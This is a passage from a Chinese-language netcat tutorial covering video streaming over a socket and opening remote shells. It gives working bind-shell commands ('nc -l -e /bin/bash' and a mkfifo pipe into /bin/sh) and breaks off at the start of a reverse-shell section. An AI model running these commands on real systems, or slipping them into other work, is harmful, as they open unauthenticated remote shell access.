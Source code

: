 ## 6. 流视频
虽然不是生成流视频的最好方法，但如果服务器上没有特定的工具，使用netcat，我们仍然有希望做成这件事。

服务端

  $cat video.avi | nc -l 1567

这里我们只是从一个视频文件中读入并重定向输出到netcat客户端

  $ nc 172.31.100.7 1567 | mplayer -vo x11 -cache 3000 -

这里我们从socket中读入数据并重定向到mplayer。

## 打开一个shell
我们已经用过远程shell, 使用telnet和ssh，但是如果这两个命令没有安装并且我们没有权限安装他们，我们也可以使用netcat创建远程shell。

假设你的netcat支持 -c -e 参数(默认 netcat)

  # Server
  nc -l 1567 -e /bin/bash -i
  # Client
  nc 172.31.100.7 1567

这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

  #Server
  mkfifo /tmp/tmp_fifo
  cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo

这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。

说明：

1. 从网络收到的输入写到fifo文件中
2. cat 命令读取fifo文件并且其内容发送给sh命令
2. sh命令进程受到输入并把它写回到netcat。
2. netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

  Client
  $nc -n 127.0.0.1 1567

你会得到一个shell提示符在客户端

### 反向shell
反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

  服务端
  $nc -l 1567
